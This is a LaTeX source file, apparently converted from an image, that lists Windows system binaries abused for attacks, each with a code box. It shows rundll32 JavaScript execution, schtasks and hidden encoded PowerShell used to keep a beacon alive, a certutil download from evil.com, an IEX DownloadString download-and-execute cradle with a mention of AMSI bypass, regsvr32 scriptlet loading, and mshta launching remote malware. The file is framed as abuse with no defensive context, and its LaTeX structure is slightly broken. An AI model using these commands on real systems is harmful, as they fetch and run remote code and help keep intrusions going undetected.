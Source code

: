 \documentclass[a4paper,12pt]{article}
\begin{document}
\begin{enumerate}[leftmargin=*,itemsep=0.5em]
\begin{tcolorbox}[colback=codebg, boxrule=0.5pt, arc=4pt, boxsep=5pt]
\begin{verbatim}
rundll32.exe javascript:"\..\..\mshtml,RunHTMLApplication ..."
\end{verbatim}
    \end{tcolorbox}
  \item Abuse \texttt{schtasks} to run \texttt{powershell -enc <b64>}.
    \begin{tcolorbox}[colback=codebg, boxrule=0.5pt, arc=4pt, boxsep=5pt]
\begin{verbatim}
powershell -enc <b64>
\end{verbatim}
    \end{tcolorbox}
  \item \texttt{powershell -nop -w hidden -enc ...} keeps beacon alive.
    \begin{tcolorbox}[colback=codebg, boxrule=0.5pt, arc=4pt, boxsep=5pt]
\begin{verbatim}
powershell -nop -w hidden -enc ...
\end{verbatim}
    \end{tcolorbox}
  \item \texttt{certutil -urlcache -split -f http[:]//evil.com/secret.zip secret.zip}
    \begin{tcolorbox}[colback=codebg, boxrule=0.5pt, arc=4pt, boxsep=5pt]
\begin{verbatim}
certutil -urlcache -split -f http[:]//evil.com/secret.zip secret.zip
\end{verbatim}
    \end{tcolorbox}
  \item \texttt{powershell.exe} Automation scripts Download-exec (\texttt{IEX (New-Object Net.WebClient).DownloadString()}), AMSI bypass
    \begin{tcolorbox}[colback=codebg, boxrule=0.5pt, arc=4pt, boxsep=5pt]
\begin{verbatim}
IEX (New-Object Net.WebClient).DownloadString()
\end{verbatim}
    \end{tcolorbox}
  \item \texttt{regsvr32.exe} Register COM DLLs Download \& run scriptlet via \texttt{/s /n /u /i:url scrobj.dll}
    \begin{tcolorbox}[colback=codebg, boxrule=0.5pt, arc=4pt, boxsep=5pt]
\begin{verbatim}
/s /n /u /i:url scrobj.dll
\end{verbatim}
    \end{tcolorbox}
  \item \texttt{mshta.exe} Run HTML applications Remote .hta launching malware

\end{enumerate}
\end{document}
